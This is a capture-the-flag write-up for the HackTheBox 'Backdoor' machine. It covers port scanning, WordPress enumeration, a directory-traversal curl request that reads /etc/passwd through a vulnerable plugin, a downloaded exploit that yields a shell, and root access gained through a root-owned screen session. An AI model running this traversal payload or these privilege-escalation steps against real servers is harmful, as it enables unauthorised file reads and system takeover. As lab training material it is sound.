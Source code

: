 ```yaml
---
layout: default
title : muzec - Backdoor - HackTheBox
---
```



### Enumeration With Nmap

`nmap -p- --min-rate 10000 -oA nmap/allports -v 10.10.11.125`

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/10.10.11.125]
└─$ nmap -p- --min-rate 10000 -oA nmap/allports -v 10.10.11.125

# Nmap 7.91 scan initiated Fri Nov 26 10:39:58 2021 as: nmap -p- --min-rate 10000 -oA nmap/allports -v 10.10.11.125
Increasing send delay for 10.10.11.125 from 0 to 5 due to 58 out of 192 dropped probes since last increase.
Warning: 10.10.11.125 giving up on port because retransmission cap hit (10).
Increasing send delay for 10.10.11.125 from 640 to 1000 due to 403 out of 1341 dropped probes since last increase.
Nmap scan report for backdoor.htb (10.10.11.125)
Host is up (0.22s latency).
Not shown: 55557 closed ports, 9976 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
# Nmap done at Fri Nov 26 10:41:01 2021 -- 1 IP address (1 host up) scanned in 63.66 seconds
```

Now let use nmap default script and service detection to get more information from the target.

`nmap -sC -sV -oA nmap/normal -p 22,80 10.10.11.125`

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/10.10.11.125]
└─$ nmap -sC -sV -oA nmap/normal -p 22,80 10.10.11.125   
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-26 10:43 WAT
Stats: 0:00:00 elapsed; 0 hosts completed (0 up), 0 undergoing Script Pre-Scan
NSE Timing: About 0.00% done
Nmap scan report for backdoor.htb (10.10.11.125)
Host is up (0.34s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.8.1
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Backdoor &#8211; Real-Life
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.53 seconds
```


Pretty cool and lit so we have 2 open ports let list it out;

```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

We know our system is Ubuntu which is cool between now let see what we have on the port 80 HTTP.

![image](https://user-images.githubusercontent.com/69868171/143584548-1177863c-6a2b-4d0f-a698-5f8fef9218fb.png)


Content management system is wordpress nice let try enumerating with `wpscan`.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/10.10.11.125]
└─$ wpscan --url http://backdoor.htb --enumerate u     
```

Enumerating for usernames on the wordpress blog and we got only one which is `admin` .

![image](https://user-images.githubusercontent.com/69868171/143585076-7e8bade2-8167-427e-b004-265695a87997.png)


Interesting we can try brute forcing and leave that running now let check for plugins if we have any vulnerable ones.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/10.10.11.125]
└─$ wpscan --url http://backdoor.htb --plugins-detection aggressive -e ap 
```

Let it fly man it should take some time.

![image](https://user-images.githubusercontent.com/69868171/143589474-78209a19-c302-455d-9461-6fa64bba6316.png)

We got it and also the version between it important to check for version all the time.

![image](https://user-images.githubusercontent.com/69868171/143589646-30e9c44d-4e6c-4c82-a755-1e6e8b690244.png)

A quick google search and boom we got an exploit on exploit-db yes it vulnerable `Directory Traversal` .

![image](https://user-images.githubusercontent.com/69868171/143589860-642f8a89-bcb5-46ac-bd30-1ecc59318a82.png)


```
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/10.10.11.125]
└─$ curl http://backdoor.htb/wp-content/plugins//ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../../../etc/passwd
../../../../../../../../../etc/passwd../../../../../../../../../etc/passwd../../../../../../../../../etc/passwdroot:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
user:x:1000:1000:user:/home/user:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
<script>window.close()</script>                    
```
Boom and we have the passwd file which is cool i guess i also got the `wp-config.php` file but which is not that helpful now let check the process that is running on the system. So i quickly startup my burp suite to intercept the request.

![image](https://user-images.githubusercontent.com/69868171/143591588-afb126dd-d752-4de3-aa8c-cc0b06a55f5c.png)

Now let send to intruder to set things up.

![image](https://user-images.githubusercontent.com/69868171/143591744-aa1b2406-2b85-416b-b2d3-40c5ba04ce55.png)

Now let click on `clear` . Now let select `1` and click on add.

![image](https://user-images.githubusercontent.com/69868171/143591972-7d5b89cf-959c-43fc-be2a-cb36924f3d68.png)

Now let click on payloads.

![image](https://user-images.githubusercontent.com/69868171/143592418-f1442895-a2e1-44b6-96d8-124e69b0a5ab.png)

Follow above screenshot to set it up and let start attack.

![image](https://user-images.githubusercontent.com/69868171/143592959-3c58c294-2084-41df-a281-b89e13a17e27.png)

Now we have something which seems interesting let hit google.

![image](https://user-images.githubusercontent.com/69868171/143594510-ab3680bb-0443-407f-b523-bc1a9ad7b915.png)

Boom an exploit written in python3 let download it and try it out.

![image](https://user-images.githubusercontent.com/69868171/143594984-9d0c6cad-89e9-4a54-aa49-dd7fbd26fd0e.png)

The exploit is clear and well explain let run it.

![image](https://user-images.githubusercontent.com/69868171/143595574-df2c75c9-3312-4ec2-9947-2389cb95e49b.png)

Boom we have shell smooth let spawn a tty shell.

![image](https://user-images.githubusercontent.com/69868171/143597563-09a1f081-0f48-4cb0-a2ec-36e0e3f5606b.png)

Boom we are in and also we have stable shell let get the user.txt.

![image](https://user-images.githubusercontent.com/69868171/143597718-8271ffdc-33ca-42f8-8afc-dd8660e8b05e.png)

We have user.txt let root and bye bye to `backdoor` lol .

![image](https://user-images.githubusercontent.com/69868171/143598046-0632b6ba-817a-486a-96a9-abe664f8135a.png)

```
sudo -l
```

But it a deadend because we have no password let check SUID.

![image](https://user-images.githubusercontent.com/69868171/143598678-71459dbe-18a7-4e7e-beca-26f217a54fa0.png)

```
find / -perm -u=s -type f 2>/dev/null
```

Hmmm so i decided to run `linpeas.sh` on the target to see what is hidden.

![image](https://user-images.githubusercontent.com/69868171/143599677-8e74d397-c494-4979-a90f-1032129314e5.png)

Now that is a strange process running on root let see what we can do.

```
Screen ls

```

But i got terminating interesting let try something. What's happening here is that it's creating a deattached session using `screen` and that session name is `root` , but we can't resume that session by specifying it's name.

```
/usr/bin/screen
```

![image](https://user-images.githubusercontent.com/69868171/143603369-06b60f5c-80cf-4fc5-b4c4-5ac73e2761ac.png)

```
<ctrl+a>:multiuser on
```

![image](https://user-images.githubusercontent.com/69868171/143603708-5e976b1b-28bd-440b-9efb-d8e1c36e0bd2.png)

```
<ctrl+a>:acladd user
```

Click on enter and we should be good to go now let type;

```
screen -x root/
```

We should drop into root shell after hitting Enter.

![image](https://user-images.githubusercontent.com/69868171/143604120-9acdc0a4-03ba-4b14-b169-cdcb0f7997b2.png)

Boom we are done and machine rooted.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
